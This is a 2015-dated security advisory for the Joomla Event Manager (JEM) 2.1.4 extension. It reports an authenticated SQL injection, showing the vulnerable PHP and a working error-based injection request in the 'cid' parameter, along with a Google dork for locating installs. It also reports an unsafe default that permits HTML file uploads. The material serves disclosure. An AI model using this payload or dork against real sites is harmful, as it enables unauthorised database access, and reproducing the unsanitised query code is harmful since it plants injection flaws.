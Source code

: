 ```yaml
---
layout: default
title:  "Joomla Event Manager 2.1.4 - Multiple Vulnerabilities"
date:   2017-08-10 20:00:00
categories: joomla jem
---
```


{{ page.title }}
================

* _Author_: Martino Sani
* _Release date_: 2015-08-12
* _Vendor Homepage_: www.joomlaeventmanager.net
* _Software Link_: www.joomlaeventmanager.net/download?download=50:jem-2-1-4-stable
* _Version_: 2.1.4
* _Google Dork_: inurl:option=com_jem
* _Exploit-DB_: www.exploit-db.com/exploits/37767/
* _CVE_: -

I identified some vulnerabilities and insecure settings in Joomla Event Manager plugin, JEM 2.1.4. A malicious user could use these issues to access back-end database data and attack application clients. Attacker must have valid authentication credentials to exploit these issues.

## SQL Injection

Authenticated user can execute arbitrary SQL queries via SQL injection in the functionality that allows to publish/unpublish an event. Vulnerable resource is *index.php?option=com_jem&view=myevents* and the injection point is *cid* parameter.

```
// sites/models/myevents.php
function publish($cid = array(), $publish = 1)
{
    if (is_array($cid) && count($cid)) {
        $cids = implode(',', $cid);

	$query = 'UPDATE #__jem_events'
               . ' SET published = '. (int) $publish
               . ' WHERE id IN ('. $cids .')'
               . ' AND (checked_out = 0 OR (checked_out = ' .$userid. '))';

        $this->_db->setQuery($query);
    }
}
```

POC
```
POST /joomla3.4.3/index.php?option=com_jem&view=myevents&Itemid=151 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Cookie: 55cfbe406ffe44b0159d9a943820d207=gauuoq0rqlakkltqj4dd1mpd76; jpanesliders_stat-pane=0; jpanesliders_event-sliders-10=2; d6300469df4ad94ccc019d02bc74f647=4339lu3g2tn4lhg2lvgd8ft263
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 352

filter=1&filter_search=&limit=10&cid%5B%5D=1,2)%20AND%20(SELECT%206959%20FROM(SELECT%20COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.TABLES%20GROUP%20BY%20x)a)%20AND%20(1577=1577&filter_order=a.dates&filter_order_Dir=&enableemailaddress=0&boxchecked=1&task=myevents.unpublish&option=com_jem&5c597c6e06b1d6627024f147b562ecaf=1
```

## Insecure File Upload

Default JEM settings allow to upload HTML/HTM files as event's attachment. An authenticated attacker could upload malicious HTML/HTM files with malicious code (e.g. Javascript). These attachments could be reachable on *<<website>>/media/com_jem/attachments/event/event[id]/* or downloaded and executed locally by the victim's browser.

Attachments process is handled by */site/classes/attachments.class.php* file.

File types allowed by default are in the */admin/sql/install.mysql.utf.sql* file.

## Timeline

* 2015-08-01: Vendor notification.
* 2015-08-12: Vendor fixes the issues in the development branch.
	
The author is not responsible for the misuse of the information provided in this advisory.